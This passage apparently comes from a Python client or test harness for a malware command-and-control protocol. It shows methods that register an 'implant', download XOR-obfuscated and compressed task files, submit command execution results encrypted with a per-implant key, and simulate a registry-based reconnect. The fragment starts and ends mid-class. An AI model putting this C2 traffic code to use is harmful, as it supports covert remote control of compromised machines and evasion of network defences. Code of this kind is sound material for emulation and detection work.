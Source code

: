 ```python
        return response.json()

    def download_file(self, file_id: str, task_guid: str) -> bytes:
        """Download and process file from server"""
        if not self.unique_xor_key:
            raise Exception("Must register first to get UNIQUE_XOR_KEY")
            
        headers = self.headers.copy()
        headers['Content-MD5'] = task_guid
        
        print(f"\nDownloading file {file_id}...")
        response = requests.get(
            f"{self.base_url}/task/{file_id}",
            headers=headers
        )
        
        if response.status_code == 200:
            # Get encrypted filename from header
            enc_filename = response.headers.get('X-Original-Filename')
            if enc_filename:
                filename = self.xor_decrypt(enc_filename, self.unique_xor_key)
                print(f"Original filename: {filename}")
            
            # Process file content
            content = base64.b64decode(response.content)
            decrypted = self.xor_decrypt(content.decode(), self.unique_xor_key)
            decompressed = zlib.decompress(decrypted.encode())
            return decompressed
        
        return response.content

    def submit_result(self, task_guid: str, result: str) -> Dict[str, Any]:
        """Submit command execution result using UNIQUE_XOR_KEY"""
        if not self.unique_xor_key:
            raise Exception("Must register first to get UNIQUE_XOR_KEY")
            
        data = {
            'guid': task_guid,
            'result': base64.b64encode(result.encode()).decode()
        }
        encrypted_data = self.xor_encrypt(json.dumps(data), self.unique_xor_key)
        
        print("\nSubmitting result...")
        response = requests.post(
            f"{self.base_url}/result",
            headers=self.headers,
            json={'data': encrypted_data}
        )
        return response.json()

    def reconnect(self) -> Dict[str, Any]:
        """Test reconnection flow using INITIAL_XOR_KEY for registry ID"""
        if not self.implant_id:
            raise Exception("Must register first to get implant ID")
            
        # Simulate reading encrypted ID from registry
        enc_id = self.xor_encrypt(self.implant_id, self.initial_xor_key)
        # Decrypt ID for X-Request-ID header
        dec_id = self.xor_decrypt(enc_id, self.initial_xor_key)
        
        headers = self.headers.copy()
        headers['X-Request-ID'] = dec_id
        
```